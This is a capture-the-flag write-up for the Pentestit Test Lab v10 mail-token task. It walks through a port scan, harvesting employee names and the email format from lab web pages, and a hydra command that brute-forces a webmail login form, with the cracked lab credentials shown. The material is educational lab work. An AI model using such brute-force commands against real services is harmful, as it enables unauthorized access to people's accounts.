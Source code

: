 ```yaml
---
title: Pentestit Test Lab v10 WriteUp - Mail Token
categories: ['CTF WriteUp']
tags: ['Hacking']
---
```


# Intro/Network
Lets look at the network diagram first:

![Image]({{ site.baseurl }}/images/testlabv10network.png)

Seems like a gray/whitebox lab, nice! Now to reach the internal networks we have to get past the gateway. After connecting to the VPN we can start attacking.



# Gathering Info
Since we can only attack the gateway, lets start gathering some info. Doing a quick nmap scan reveales the following open ports.

![Image]({{ site.baseurl }}/images/testlabv10gwnmap.png)

Usually, websites are a good start to get more info, lets check them out.

## Web on port 80
Accessing the website on port 80 brings me to their main homepage. I searched through it for a long time but couldnt find anything useful. After that I decided to continue to port 443.

## Web on port 443
Accessing the website on port 443 lead me to some kind of security blog. Searching the website for info, I found the following comment in the source:

{% highlight html %}
<!-- Alfred Modlin said use this template -->
{% endhighlight %}

hmm, looks like a employees name. maybe we can use that name later?

Searching further through the site, I found the following 2 emails on the contact site:

{% highlight html %}
Scott Locklear- s.locklear@gds.lab
Joshua Wise- j.wise@gds.lab
{% endhighlight %}

Now we know the e-mail format for the company! Combine that with the name found earlier, we possibly have another user: a.modlin@gds.lab!

## Web on port 8100
Moving on to port 8100, which looks like another webserver. Accessing the website itself brings me to a login-form of their webmail. Maybe we can bruteforce a users login via the login-form?



# Bruteforcing login
Since we want to try all possible users, ive added the found emails to a file named "users.txt". After that I started to bruteforce the login-form on http://192.168.101.9:8100/login/ with the following command:

{% highlight shell %}
hydra -v -t 16 -L users.txt -P /root/Desktop/wordlists/john.txt http-post://192.168.101.9:8100/login/
{% endhighlight %}

With success! We found the login for a.modlin:

{% highlight shell %}
[8100][http-post] host: 192.168.101.9 login: a.modlin@gds.lab password: justdoit
[STATUS] attack finished for 192.168.101.9 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
{% endhighlight %}

After logging in with the found credentials, I found 2 E-Mails with one of them containing the token. Task Done!
